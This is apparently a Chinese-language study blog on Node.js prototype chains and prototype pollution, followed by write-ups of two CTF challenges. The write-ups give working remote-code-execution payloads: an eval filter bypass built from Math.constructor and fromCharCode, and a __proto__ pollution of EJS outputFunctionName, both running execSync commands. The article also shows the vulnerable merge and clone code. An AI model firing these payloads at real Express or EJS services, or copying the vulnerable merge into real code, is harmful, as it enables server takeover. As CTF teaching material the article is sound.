


[toc]


# NodeJs基础

好像也没啥写的。。

## child_process(创建子进程)

分为异步和同步：

异步：

```javascript
child_process.exec(command[, options][, callback])
child_process.execFile(file[, args][, options][, callback])
child_process.fork(modulePath[, args][, options])
child_process.spawn(command[, args][, options])
```

同步：

```javascript
child_process.execFileSync(file[, args][, options])
child_process.execSync(command[, options])
child_process.spawnSync(command[, args][, options])
```

异步中，`spawn`是基础，其他的`fork`、`exec`、`execFile`都是基于`spawn`来生成的。

## Javascript原型链

>   https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain

### 原型与原型链

js中没有子类父类的概念，也没有类和实例，js中的继承使用"原型链"来实现。

JS中几乎所有的事物都是对象，如下代码：

```javascript
var a = {
    "name": "asdf",    
    "blog": "https://asdf.github.io"
}
a.name;
a.blog;
console.log(a);
```

其中访问对像的属性，可以有两种方式：

```javascript
a.name; 
a["name"];
```

### 原型的定义和继承

在javascript中一切皆对象，因为所有的变量，函数，数组，对象 都始于object的原型即object.prototype

每个实例对象（object）都有一个私有属性（称之为 \_\_proto\_\_ ）指向它的构造函数的原型对象（prototype）。即任何对象都是由一个构造函数创建的.

```java
function Father() {
    this.first_name = 'Donald'
    this.last_name = 'Trump'
}

function Son() {
    this.first_name = 'Melania'
}

Son.prototype = new Father()

let son = new Son()
console.log(`Name: ${son.first_name} ${son.last_name}`)
//Son类继承了Father类的last_name属性，最后输出的是Name: Melania Trump。
```

对于对象son，在调用`son.last_name`的时候，实际上JavaScript引擎会进行如下操作：(查找顺序)

1.  在对象son中寻找last_name
2.  如果找不到，则在`son.__proto__`中寻找last_name
3.  如果仍然找不到，则继续在`son.__proto__.__proto__`中寻找last_name
4.  依次寻找，直到找到`null`结束。比如，`Object.prototype`的`__proto__`就是`null`


>   当谈到继承时，JavaScript 只有一种结构：对象。每个实例对象（object）都有一个私有属性（称之为 \_\_proto\_\_ ）指向它的构造函数的原型对象（prototype）。该原型对象也有一个自己的原型对象（\_\_proto\_\_），层层向上直到一个对象的原型对象为 `null`。根据定义，`null` 没有原型，并作为这个**原型链**中的最后一个环节。

```javascript
function a(name,age){
    this.name = name;
    this.age = age;
}
```

a函数内容是a类的构造函数，其中`this.name`、`this.age`就是a类的属性。

在JavaScript中，声明了一个函数a，然后浏览器就自动在内存中创建一个对象b，a函数默认有一个属性(原型对象:prototype)指向了这个对象b，b就是函数a的原型对象，简称原型。同时，对象b默认有属性constructor指向函数a。

```javascript
> function a(){};
undefined
> a.prototype
{} 
> a.prototype.constructor
[Function: a]
```

创建一个对象a，对象a会默认有一个属性proto指向构造函数A的原型对象b

`A.prototype == a.__proto__`

```javascript
> function A(){};
undefined
> let a = new A();
undefined
> A.prototype = a.__proto__
{}
> a.constructor
[Function: A]
```

当要使用或输出一个变量时：首先会在本层中搜索相应的变量，如果不存在的话，就会向上搜索，即在自己的父类中搜索，当父类中也没有时，就会向祖父类搜索，直到指向null，如果此时还没有搜索到，就会返回 undefined。

```javascript
> a.__proto__
{}
> a.__proto__.__proto__
[Object: null prototype] {}
> a.__proto__.__proto__.__proto__
```



由于对象之间存在继承关系，所以当我们要使用或者输出一个变量就会通过原型链向上搜索，当上层没有就会再向上上层搜索，直到指向 null，若此时还未找到就会返回 undefined

图中的原型链是 `cat->Cat.protype->Object.prototype->null`


# NodeJs原型链污染

原型链污染就是修改其构造函数中的属性值，使其他通过该构造函数实例化出的对象也具有这个属性的值。

`foo.__proto__`指向的是`Foo`类的`prototype`。那么，如果我们修改了`foo.__proto__`中的值，是不是就可以修改Foo类呢？demo:

```javascript
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar)

// 修改foo的原型（即Object）
foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1
console.log(foo.bar)

// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar
console.log(zoo.bar)
```

foo是一个Object类的实例，所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2。

在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是**原型链污染**。

可能存在原型链污染的情况：

-   对象merge
-   对象clone（其实内核就是将待操作的对象merge到一个空对象中）

以merge举例：

```javascript
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

这个key如果是`__proto__`，就有可能造成原型链污染。

```JavaScript
let o1 = {}
let o2 = {a: 1, "__proto__": {b: 2}}
merge(o1, o2)
console.log(o1.a, o1.b)
o3 = {}
console.log(o3.b)
```

没有成功，这是因为，我们用JavaScript创建o2的过程（`let o2 = {a: 1, "__proto__": {b: 2}}`）中，`__proto__`已经代表o2的原型了，此时遍历o2的所有键名，你拿到的是`[a, b]`，`__proto__`并不是一个key，自然也不会修改Object的原型。

那么，如何让`__proto__`被认为是一个键名呢？

我们将代码改成如下：

```JavaScript
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

成功污染。在JSON解析的情况下，`__proto__`会被认为是一个真正的“键名”，而不代表“原型”，所以在遍历o2的时候会存在这个键。

# CTF题目


## [NPUCTF2020]验证🐎

好吧，其实这个不是原型链污染的题，做完才发现。。但还是学到很多

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const cookieSession = require('cookie-session');

const fs = require('fs');
const crypto = require('crypto');

const keys = require('./key.js').keys;

function md5(s) {
    return crypto.createHash('md5')
        .update(s)
        .digest('hex');
}

function saferEval(str) {
    if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
        return null;
    }
    return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个

const template = fs.readFileSync('./index.html').toString();

function render(results) {
    return template.replace('{{results}}', results.join('<br/>'));
}

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());

app.use(cookieSession({
    name: 'PHPSESSION', // 2020.3/WORKER2 嘿嘿，给👴爪⑧
    keys
}));

Object.freeze(Object);
Object.freeze(Math);

app.post('/', function(req, res) {
    let result = '';
    const results = req.session.results || [];
    const { e, first, second } = req.body;
    if (first && second && first.length === second.length && first !== second && md5(first + keys[0]) === md5(second + keys[0])) {
        if (req.body.e) {
            try {
                result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
            } catch (e) {
                console.log(e);
                result = 'Wrong Wrong Wrong!!!';
            }
            results.unshift(`${req.body.e}=${result}`);
        }
    } else {
        results.unshift('Not verified!');
    }
    if (results.length > 13) {
        results.pop();
    }
    req.session.results = results;
    res.send(render(req.session.results));
});

// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function(req, res) {
    res.set('Content-Type', 'text/javascript;charset=utf-8');
    res.send(fs.readFileSync('./index.js'));
});

app.get('/', function(req, res) {
    res.set('Content-Type', 'text/html;charset=utf-8');
    req.session.admin = req.session.admin || 0;
    res.send(render(req.session.results = req.session.results || []))
});

app.listen(80, '0.0.0.0', () => {
    console.log('Start listening')
});
```

主要的就是`first.length === second.length && first !== second && md5(first + keys[0]) === md5(second + keys[0])`，然后绕过一个正则，

可以使用正则可视化：



允许Math.xxx或者一堆字符，或者科学计数法。

### MD5

首先是MD5的绕过。使用了相加，可能就是弱类型，`app.use(bodyParser.json());`指明了允许在Content-Type是application/json时，可以以json格式解析数据，`{"e": "1+1", "first": "1", "second": [1]}`

### 正则绕过

允许Math，取Function，Function将我们获得的字符串作为函数执行

```javascript
> Math.constructor
[Function: Object]
> Math.constructor.constructor
[Function: Function]
```

可以执行

```javascript
let a=Math.constructor.constructor
console.log(a("return process.mainModule.require('child_process').execSync('dir').toString()")())
```

不允许字符出现，利用String.fromCharCode()

```python
def gen(cmd):
    s = f"return process.mainModule.require('child_process').execSync('{cmd}').toString()"
    return ','.join([str(ord(i)) for i in s])

print(gen('cat /flag'))
```

可以利用字符串拼接出string：

```javascript
> Math+1
'[object Math]1'
```

箭头函数表示自调用`(()=>())()`，例子：

```javascript
let a = function () {
    console.log("123123");
};

a();

let b = (x) => {
    console.log(x);
};
b(123);

let c = (x) => console.log(x);
c(123);
```

最终payload：

```javascript
(Math=>
    (Math=Math.constructor,
            Math.constructor(
                Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,
                    99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,
                    46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,
                    95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,
                    121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()
    )
)(Math+1)
```

## [GYCTF2020]Ez_Express

`www.zip` 下载，在route/index.js，有merge和clone，那就是了，

```javascript
router.post('/action', function(req, res) {
    if (req.session.user.user != "ADMIN") { res.end("<script>alert('ADMIN is asked');history.go(-1);</script>") }
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
```

需要是admin才能clone，login：

```javascript
function safeKeyword(keyword) {
    if (keyword.match(/(admin)/is)) {
        return keyword
    }

    return undefined
}
router.post('/login', function(req, res) {
    if (req.body.Submit == "register") {
        if (safeKeyword(req.body.userid)) {
            res.end("<script>alert('forbid word');history.go(-1);</script>")
        }
        req.session.user = {
            'user': req.body.userid.toUpperCase(),
            'passwd': req.body.pwd,
            'isLogin': false
        }
        res.redirect('/');
    } else if (req.body.Submit == "login") {
        if (!req.session.user) { res.end("<script>alert('register first');history.go(-1);</script>") }
        if (req.session.user.user == req.body.userid && req.body.pwd == req.session.user.passwd) {
            req.session.user.isLogin = true;
        } else {
            res.end("<script>alert('error passwd');history.go(-1);</script>")
        }

    }
    res.redirect('/');;
});
```

匹配大小写之后`toUpperCase`转为大写，p牛的一篇文章：

>   Fuzz中的javascript大小写特性
>
>   https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

注册admın

之后就到了漏洞部分：

```javascript
router.post('/action', function(req, res) {
    if (req.session.user.user != "ADMIN") { res.end("<script>alert('ADMIN is asked');history.go(-1);</script>") }
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
```

payload的构造：https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/

`{"__proto__":{"outputFunctionName":"a;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}`

改application/json，之后访问info得flag。

end.

-------------


>   https://www.cnblogs.com/ophxc/p/13298896.html
>   https://as1def.github.io/2021/01/24/NodeJs%E4%BB%8E%E9%9B%B6%E5%BC%80%E5%A7%8B%E5%88%B0%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/
>   https://www.anquanke.com/post/id/236182
>   https://www.freebuf.com/articles/web/200406.html
>   https://www.cnblogs.com/tr1ple/p/11360881.html
>   https://0xcreed.jxustctf.top/2020/06/nodejs%E5%AD%A6%E4%B9%A0/
>   https://xz.aliyun.com/t/7184#toc-3
>   https://xz.aliyun.com/t/7182
>   https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html
>   https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/
>   https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html


